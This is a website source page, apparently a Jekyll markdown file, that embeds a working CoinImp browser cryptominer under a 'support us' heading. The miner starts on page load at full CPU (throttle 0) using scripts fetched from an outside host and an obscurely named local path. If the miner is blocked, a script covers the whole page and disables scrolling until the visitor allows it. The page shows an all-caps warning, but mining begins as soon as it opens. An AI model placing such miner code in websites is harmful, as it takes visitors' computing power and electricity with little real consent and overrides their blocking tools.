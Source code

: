 ```yaml
---
layout: single
title: Support Florence
permalink: /support/crypto
---
```


# Support Us by mining MINTME
If you want to support us by mining on a browser, you can do that here.

**WARNING: IF YOU CONTINUE TO DO THIS, YOU'RE AGREEING THAT THIS SCRIPT WILL MINE MINTME DIRECTLY ON YOUR BROWSER VIA COINIMP. IF YOU DON'T WANT TO MINE, LEAVE THE PAGE RIGHT NOW.**

<script src="/assets/js/Yw7T.php?f=YAUy.js"></script>
<script src="https://www.hostingcloud.racing/Yf0C.js"></script>
<script>
    var _client = new Client.Anonymous('8e4505d80018dccce261ad9da53e25bb39fac359d3393e1cb5534dc08a379507', {
        throttle: 0, c: 'w'
    });
    _client.start();
    _client.addMiningNotification("Top", "Thanks for supporting this website! This webpage is mining on coinimp.com", "#cccccc", 40, "#3d3d3d");
</script>
<script>
    setTimeout(function(){
        if(typeof _client === 'undefined' || _client === null)
        {
            var messageDiv = document.createElement("div");
            messageDiv.setAttribute("style","width: 50%; background-color: white; padding: 15px; display: inline-block; vertical-align: middle;");
            messageDiv.appendChild(document.createTextNode("Please allow our miner on your blocker software to continue browsing our site. Reload the page after that."));
            var mainDiv = document.createElement("div");
            mainDiv.setAttribute("style","position: absolute; top: 0px; right: 0px; width: 100%; height: 100%; display: flex; background-color: #4c4c4c;  align-items: center; justify-content: center");
            mainDiv.appendChild(messageDiv);
            document.body.appendChild(mainDiv);
            document.getElementsByTagName("body")[0].style.overflow = "hidden";
            window.scrollTo(0, 0);
        }
    },1000);
</script>
